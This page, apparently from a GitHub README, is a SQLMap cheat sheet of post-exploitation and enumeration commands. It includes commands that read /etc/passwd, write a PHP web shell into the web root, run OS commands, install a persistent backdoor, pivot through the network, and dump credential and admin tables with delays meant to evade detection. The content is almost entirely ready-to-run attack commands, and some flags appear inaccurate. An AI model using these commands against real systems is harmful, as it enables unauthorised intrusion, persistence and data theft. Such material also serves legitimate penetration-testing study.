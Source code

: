 #### Post-Exploitation Techniques

Once access to the database has been obtained, SQLMap can be used for further exploitation.

1. **Reading and Writing Files on the Server**: Reads and writes files on the database server.
    ```bash
    sqlmap -u <target_url> --file-read=/etc/passwd
    sqlmap -u <target_url> --file-write=<local_file> --file-dest=/var/www/html/shell.php
    ```
2. **Executing OS Commands**: Executes an OS command on the database server.
    ```bash
    sqlmap -u <target_url> --os-cmd="whoami"
    ```
3. **Maintaining Access with Backdoors**: Opens an OS shell and attempts to install a persistent backdoor on the server.
    ```bash
    sqlmap -u <target_url> --os-shell --os-pwn
    ```
4. **Pivoting Through the Database Server**: Uses the database server as a pivot point to attack other machines within the network.
    ```bash
    sqlmap -u <target_url> --os-shell --pivot --proxy=<proxy_server>
    ```
5. **Exfiltrating Sensitive Data**: Exfiltrates data from the database with multiple threads and a delay to avoid detection.
    ```bash
    sqlmap -u <target_url> --dump --threads=10 --delay=2
    ```

#### Enumeration Techniques

1. **Enumerating Entire Database Schema**: Dumps the entire database schema, including all tables and columns.
    ```bash
    sqlmap -u <target_url> --schema
    ```
2. **Searching for Specific Tables**: Searches for tables that match a specific pattern (e.g., tables starting with "admin").
    ```bash
    sqlmap -u <target_url> --search -T "admin*"
    ```
3. **Searching for Specific Columns**: Searches for columns matching a specific pattern (e.g., columns named "password").
    ```bash
    sqlmap -u <target_url> --search -C "password"
    ```
4. **Dumping Data from All Databases**: Dumps data from all available databases.
    ```bash
    sqlmap -u <target_url> --dump-all
    ```
5. **Dumping Specific Data with Conditions**: Dumps specific data from a table where a condition is met.
    ```bash
    sqlmap -u <target_url> --dump -T users -D database --where="role='admin'"
    ```
